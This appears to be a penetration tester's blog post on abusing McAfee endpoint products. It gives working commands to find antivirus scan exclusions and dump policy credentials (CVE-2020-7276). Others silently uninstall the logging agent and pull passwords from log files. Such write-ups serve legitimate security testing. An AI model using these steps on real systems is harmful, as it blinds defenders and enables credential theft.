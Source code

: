 ```yaml
---
title: Abusing McAfee Vulnerabilities and Misconfigurations 
date: "2021-01-17"
featuredImage: './mcafee-logo.png'
---
```


Unpatched or misconfigured McAfee components will make life much easier during a penetration test or red team assessment<!-- end -->. 

While conducting a penetration test I happen to run into McAfee and wanted to see if there are any articles on bypassing or abusing McAfee. I started doing some research and unfortunately I was unable to find any well documented modern techniques on doing so. I decided to write this article to mention a few methods that I discovered during my assessment which I found very useful.

# McAfee Products

Before I start I want to briefly go over how McAfee works for anyone who hasn't encountered it before. McAfee has various independent products/components that can be purchased by enterprises. Enterprises will purchase different products depending on their needs. Some of Mcafee's products you may encounter are:

* McAfee Endpoint Security (ENS)
* McAfee Host Intrusion Prevention (HIP)
* McAfee EndPoint Security Web Control
* McAfee VirusScan Enterprise

The full list of McAfee products is available <a href="https://www.mcafee.com/enterprise/en-ca/products/a-z.html">here</a>. 

# Method 1 - ENS Folder & File Exclusions

## On-Access Scan Exclusions

On-Access Scan (OAS) is the process of scanning files as they are accessed by users on the system. If you place your malicious file in an excluded folder then you can execute it without worrying about ENS scanning your file. You can also abuse file exclusions by simply renaming your malicious file to the excluded file name.

Query the following registry keys and check the file & folder names under the 'exclusions' value.

    #OAS Exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_DEFAULT /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_HIGH /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_LOW /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_DEFAULT /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_HIGH /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_LOW /v exclusions

    #Email attachment OAS Exclusions:
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_EMAIL_ATTACHMENTS /v exclusions


If for some reason you weren't able to find anything, the exclusions list is available in the following paths:

    C:\ProgramData\McAfee\Endpoint Security\McAfeeSettingsBackup\*.xml
    C:\ProgramData\McAfee\Endpoint Security\McAfeeSettingsBackup\*.reg


## On-Demand Scans

The aforementioned technique only covers OAS and therefore if the machine is scanned with an On-Demand Scan (ODS) then your files may be detected and deleted. If you want the exclusions list for ODS check the following registry key.

    
    reg query HKLM\SOFTWARE\McAfee\AVSolution\ODS\541* /v exclusions

\* 541 may be a different number on your target machine 


# Method 2 - ENS Disabled AMSI

By default, AMSI is set to <a href="https://www.mcafee.com/blogs/other-blogs/mcafee-labs/mcafee-amsi-integration-protects-against-malicious-scripts/">observe mode</a> which means if the invoked PowerShell commands or scripts are detected as being malicious, they won't be blocked. If AMSI is set to observe mode then we can stick to running our tools in memory. Note that malicious commands and scripts are still logged in observe mode.

![AMSI-Bypass](./AMSI_bypass.png)

# Method 3 - Dump Policy Settings (CVE-2020-7276)

I ran into this completely by accident and after searching online I realized this is probably <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7276">CVE-2020-7276</a>. If you have administrator privileges you can dump policy settings which contain sensitive information such as server names, IPs, share paths, usernames, and passwords.

    cd "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\Upgrade"
    MfeUpgradeTool.exe /export out.txt /plaintext

![MfeUpgradeTool](./mfeupgradetool.png)

# Method 4 - Uninstalling McAfee Products

If you have Administrator privileges you can try to avoid McAfee products by uninstalling them. Every McAfee component has its own registry key with an <i>Uninstall Command</i> value. The components' registry keys can be found under the following parent key:

    reg query "HKLM\SOFTWARE\WOW6432Node\Network Associates\ePolicy Orchestrator\Application Plugins"
    Or
    reg query "HKLM\Software\Wow6432Node\McAfee\ePolicy Orchestrator\Application Plugins"

![Uninstall](./uninstall_plugins.png)

## McAfee Agent

The McAfee Agent is responsible for various tasks, one of which is sending security logs to the centralized security management server known as ePO. To prevent the agent from sending logs to the server you can uninstall it. If tamper protection is enabled then this will fail, in that case you can try to switch the agent to 'unmanaged mode' which will also stop the machine from sending logs.

    #Remove Agent
    cd c:\Program Files\McAfee\Agent\x86
    FrmInst.exe /FORCEUNINSTALL /SILENT

    #Switch to unmanaged mode
    cd c:\Program Files\McAfee\Agent\x86
    FrmInst.exe /remove=agent /SILENT

# Method 5 - Passwords Inside Log files

I've seen SiteList.xml's data laying around in log files before so here's what you want to try:

    #Search for SiteList.xml
    cd C:\Users\mrd0x\AppData
    dir /s sitelist.xml

    #McAfee's log folder
    cd C:\Users\mrd0x\AppData\Local\Temp\McAfeeLogs
    findstr /i password * > enum.txt

The passwords are encrypted but can be easily decrypted using <a href="https://github.com/funoverip/mcafee-sitelist-pwd-decryption">this tool</a>.

![McAfee-Logs](./mcafee_logs.png)

# Final Remarks

Next time you run into McAfee you'll have a few more things on your checklist to try. If there are any additional methods I should add to this list please reach out to me on Twitter (@mrd0x).